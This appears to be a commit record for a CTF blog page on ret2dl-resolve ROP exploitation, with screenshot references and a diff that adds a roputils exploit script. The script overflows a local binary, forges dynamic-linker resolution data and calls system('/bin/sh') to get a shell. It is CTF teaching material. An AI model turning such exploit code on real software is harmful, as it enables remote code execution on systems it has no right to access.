

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/ctf/pwn/ROP_ret2dl.md, in a window 1280 px wide and 900 px high, scrolled down 7029 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 7434 px from its top, so only the background shows below that.

Commit message:
another ret2dl

````diff
--- a/docs/ctf/pwn/ROP_ret2dl.md
+++ b/docs/ctf/pwn/ROP_ret2dl.md
@@ -261,6 +261,7 @@
 
 ## exp
 “你猜怎么伪造`.st_name`”
+
 ```py
 #!/usr/bin/python
 
@@ -324,3 +325,30 @@
 r.sendline(payload2)
 r.interactive()
 ```
+
+“给出一个使用roputils的方法”
+```py
+from pwn import *
+from roputils import ROP
+fpath='./bof'
+p=process(fpath)
+elf=ELF(fpath)
+rop=ROP(fpath)
+# context.terminal=['zsh']
+bss_addr=elf.bss()
+ret_offset=0x6c+4
+payload=rop.retfill(ret_offset)
+base_stage=bss_addr+0x20
+payload+=rop.call('read',0,base_stage,100)
+#第一个是fake_reloc...的地址，第二个是调用函数的参数列表
+payload+=rop.dl_resolve_call(base_stage+0x30,base_stage)
+payload+=rop.fill(0x100,payload)
+p.send(payload)
+
+payload=rop.string('/bin/sh')
+payload+=rop.fill(0x30,payload)
+payload+=rop.dl_resolve_data(base_stage+0x30,'system')
+payload+=rop.fill(100,payload)
+p.send(payload)
+p.interactive()
+```
````
Also changed, not shown: docs/ctf/pwn/tools.md (+4 -0 lines), docs/_static/slogan.svg (added).
